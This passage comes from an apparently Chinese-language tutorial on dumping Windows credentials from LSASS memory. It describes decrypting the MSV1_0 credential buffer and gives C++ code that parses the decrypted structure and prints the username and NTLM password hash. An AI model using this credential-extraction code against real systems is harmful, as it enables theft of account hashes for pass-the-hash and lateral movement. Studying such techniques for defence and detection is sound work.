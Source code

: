 再读取加密的凭据缓冲区`Credentials`，并使用之前定位的密钥和向量进行解密。参考资料(https://forum.butian.net/share/2215)，此处解密后得到`MSV1_0_PRIMARY_CREDENTIAL_10_1607`结构体：

```cpp
typedef struct _MSV1_0_PRIMARY_CREDENTIAL_10_1607 {
	LSA_UNICODE_STRING LogonDomainName;
	LSA_UNICODE_STRING UserName;
	PVOID pNtlmCredIsoInProc;
	BOOLEAN isIso;
	BOOLEAN isNtOwfPassword;
	// 此处省略一些字段
	BYTE NtOwfPassword[LM_NTLM_HASH_LENGTH];
	/* buffer */
} MSV1_0_PRIMARY_CREDENTIAL_10_1607, * PMSV1_0_PRIMARY_CREDENTIAL_10_1607;
```

读取其中的用户名和密码散列，并进行相应的处理：

```cpp
// 处理 UserName
PLSA_UNICODE_STRING pUserName = (PLSA_UNICODE_STRING)(msvCredentials + offsetof(MSV1_0_PRIMARY_CREDENTIAL_10_1607, UserName));
if (pUserName->Buffer) {
	pUserName->Buffer = (PWSTR)(msvCredentials + ((ULONG_PTR)pUserName->Buffer));
}
if (pUserName->Length != 0 && pUserName->Buffer) {
	wprintf(L"Username: %ls\n", pUserName->Buffer);
}
else {
	wprintf(L"Username: [NULL]\n");
}

// 处理 NTLM Hash
PBYTE pNtOwfPassword = msvCredentials + offsetof(MSV1_0_PRIMARY_CREDENTIAL_10_1607, NtOwfPassword);
wprintf(L"NTLMHash: ");
for (int i = 0; i < LM_NTLM_HASH_LENGTH; ++i) {
	wprintf(L"%02x", pNtOwfPassword[i]);
}
wprintf(L"\n");
```


### 运行结果

![alt text](images/result4.png)
